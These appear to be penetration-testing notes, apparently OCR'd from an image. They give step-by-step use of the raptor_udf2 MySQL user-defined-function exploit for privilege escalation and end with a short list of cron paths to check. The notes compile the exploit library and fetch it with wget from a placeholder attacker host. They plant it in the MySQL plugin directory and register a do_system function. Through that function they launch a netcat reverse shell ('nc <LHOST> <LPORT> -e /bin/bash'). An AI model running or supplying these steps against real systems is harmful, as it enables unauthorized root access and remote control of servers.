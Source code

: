 mysql -V

# Compiling & preparing the exploit (raptor_udf2.c)

Compile

gcc -g -c raptor_udf2.c

gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

Transfer and Prepare

cd /tmp && wget http://<LHOST>:<LPORT>/raptor_udf2.so

wget http://<LHOST>:<LPORT>/raptor_udf2.o

mysql -u root -p<PASSWORD>

mysql > use mysql;

mysql > SHOW VARIABLES LIKE 'datadir';             <- Locate where the plugin files are (we need it to create exploitation function)

mysql > CREATE TABLE potato(line blob);

mysql > INSERT INTO potato VALUES(load_file('/tmp/raptor_udf2.so'));

mysql > SELECT * FROM potato into dumpfile '/path_to_plugins_directory/raptor_udf2.so';

mysql > CREATE FUNCTION do_system RETURNS INTEGER SONAME 'raptor_udf2.so';    <- If you get an error (errno: 11) at this point, 
that means you need to repeat the previous step with different MySQL location, e.g. /usr/lib/mysql/raptor_udf2.so or /usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so (Also, if gcc is installed, try to look for gcc solution)

mysql > SELECT * FROM mysql.func;                  <- sanity check

+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
mysql > select do_system('nc <LHOST> <LPORT> -e /bin/bash');


Cronjob tricks:

Always check CRONJOBS:

/etc/cron*

/etc/init.d

/etc/crontab                <- System wide cron job

/etc/cron.allow

/etc/cron.d
